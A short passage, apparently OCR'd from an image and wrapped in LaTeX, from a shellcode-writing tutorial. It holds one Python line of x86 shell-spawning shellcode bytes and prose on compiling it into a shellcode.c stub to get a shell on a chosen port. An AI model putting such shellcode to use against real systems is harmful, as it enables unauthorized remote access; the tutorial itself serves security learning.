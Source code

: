 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
shellcode+="\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80"

print(shellcode)
\end{verbatim}

Once we have our script we print out our updated shellcode and pop it back
into our shellcode.c stub program, compile and test a connection. When we do,
we get our shell again. And even better, we can change the port to whatever we
would like to yield the proper shellcode.
\end{document}
